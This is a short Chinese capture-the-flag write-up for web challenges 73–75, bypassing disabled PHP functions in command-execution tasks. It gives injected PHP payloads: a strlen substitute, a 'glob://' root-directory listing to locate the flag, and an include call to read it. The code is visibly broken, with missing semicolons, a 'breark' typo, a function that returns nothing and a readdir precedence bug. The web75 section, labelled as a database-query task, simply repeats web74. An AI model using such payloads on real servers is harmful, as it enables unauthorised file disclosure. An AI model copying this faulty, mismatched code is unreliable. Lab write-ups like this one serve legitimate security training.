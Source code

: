 # web73:命令执行，禁止函数

将上题的72poc绕过脚本放入，发现其中某些函数被禁用了，重写一份payload
```
<?php
//strlen  //返回指定字符串的长度
function strlen_user($s){
	return count(str_split($s))
}
echo strlen_user('abc')
?>
```
将该函数替换掉原来的payload中的strlen函数，但是存在整数溢出的错误，需要换一份写法
```
<?php
//strlen  //返回指定字符串的长度
function strlen_user($s){
	$ret=0;
	for($i=0;$i<100000;$i++){
		if($s[$i]){
			$ret=$ret+1;
		}else{
			breark
		}
	}
}
echo strlen_user('abc')
?>
```

# web 74:命令执行，禁止函数

```
尝试发现flag位置
c=$a="glob:// /*.txt";     //定义一个路径，根目录下所有txt文件
	if($b=opendir($a)){     //循环读
		while($file=readdir($b)!==false){
			echo"filename:".$file."\n"
		}
		closedir($b);
	}
	exit();

之后使用包含即可
?c=include(flagx.txt);exit();
```

# （不理解）web75:命令执行，禁止函数，数据库查询

```
尝试发现flag位置
c=$a="glob:// /*.txt";     //定义一个路径，根目录下所有txt文件
	if($b=opendir($a)){     //循环读
		while($file=readdir($b)!==false){
			echo"filename:".$file."\n"
		}
		closedir($b);
	}
	exit();

之后使用包含即可
?c=include(flagx.txt);exit();
```